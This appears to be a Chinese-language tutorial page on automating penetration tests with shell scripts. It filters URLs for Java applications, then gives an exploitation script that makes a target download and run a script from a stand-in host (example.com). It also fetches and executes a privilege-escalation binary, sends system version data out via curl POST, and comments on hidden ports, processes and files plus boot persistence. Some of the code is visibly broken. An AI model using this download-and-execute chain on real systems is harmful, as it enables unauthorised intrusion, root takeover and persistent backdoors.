 ## 分析shell脚本，自动化渗透
如果不会shell编程，这里需要自己自学shell编程。

### 0x00 理解自动化
自动化渗透，也就是流水线般的去做渗透测试。
在个人看来渗透主要分三步骤，什么样的需求①，达到什么样的目的②，最终结果③，渗透的主要三个步骤。
以目前的技术要达到完全的自动化，还无法做到，只能做到针对性强，非常有局限的自动化。
但是可以通过需求、目的、结果来进行建模，就类似搭积木一样，可以应对大部分情况。

### 0x01 需求
分析漏洞需求，在满足什么样的条件触发exp。比如Java反序列化漏洞，明确的知道哪些应用程序使用了该
技术，通过特征过滤包含这些应用程序特征的程序。
例如，我需要过滤*.do,*.action,*.jsp后缀的名字来确认是否使用java编写的应用程序
```shell
#!/bin/sh
#过滤所有URL,对java应用程序进行渗透测试
URL=`cat 1.log | grep -Eo "<a[^>]+?href=[\"']?([^\"']+)[\"']?[^>]*>([^<]+)</a>"`
#过滤do或者jsp或者action的query请求。
JSP=`echo $URL | grep -Eo "http[s]?://([A-Za-z0-9\.]*)?/[0-9a-zA-Z0-9/]+([^\.jsp]+)\.jsp"`
DO=`echo $P | grep -Eo "http[s]?://([A-Za-z0-9\.]*)?/[0-9a-zA-Z0-9/]+\.do([\?]?[^\"']+)?"`

ANYLIST=()
LIST=$JSP$DO
foreach(){
	for url in $LIST;do
		#执行目标
	done
	echo 
	return 0;
}

```


### 0x02 目的
满足需求后执行我们的目的，也就是漏洞利用，但是在利用之前，要确定，如果成功，需要做什么事情，
那么，一般黑帽做到这步的情况，就是提权留后门，由于我们只做测试检测，所以，在这里，就只要求服务器向
我们的中间服务器发送一个带kernel参数的POST，来确定目标系统的版本。
```shell
#!/bin/sh
#执行目标
exp $url
#exp的实现，根据java的各种漏洞，如java反序列化，struts2等漏洞（如果是此类型漏洞可能还需要进一步
#确定，如果无法确认，放入任意漏洞检测队列）。
#构造请求包，执行系统调用，大致实现是
while read line
do 
    data="$data${line}"
done < data.dat
exp(){
	#构造一个请求包，向服务器发送请求。目标服务器下载中间服务器脚本程序执行。
	#data的数据类似data=curl -k -L http://www.example.com/curl-exp.sh -o curl-exp.sh
	curl -k -L $1 -F "data=$data"
}
#实现一个隐藏端口，隐藏进程，隐藏文件的`linux mod`,
#由于这里做检测，所以只实现一个http请求。
#daemon-exp.sh
daemon_exp(){
	KK=`uname -a`
	curl -k -L -F "kernel="$KK http://www.example.com/push.php 
}
#编写`shell init`放到启动项里根据不同情况触发，如：`/etc/init/[rc0.d,rc1.d,rc2.d,rc3.d,rc4.d]`
#把daemon-exp.sh放入rc3.d开机启动里面；

#运行程序
#curl_exp.sh

CURL=`which curl`
if [ "$CURL" = "" ];then
	exit 1;
fi
if [ $? != 0 ];then
	exit 1;
fi

#此处下载执行隐藏端口，隐藏进程，隐藏文件的命令脚本
curl -k -L http://www.example.com/daemon-exp.sh -o daemon-exp.sh #shell-init script
#su
curl -k -L http://www.example.com/su.out -o su.out #执行提权，用最高权限执行shell脚本
chmod +x $(pwd)/su.out
./su.out daemon-exp.sh
exit 0;


```

### 0x03 结果
验证中间服务器收到的请求，确定目标机存在漏洞。
查看已经成功运行我们的exp脚本服务器。

PS：
①需求，这里指满足条件。
②目的，在满足需求的情况下，是否要拿到root权限，留下后门等。
③结果，完成所有目的操作，无任何异常或者错误。

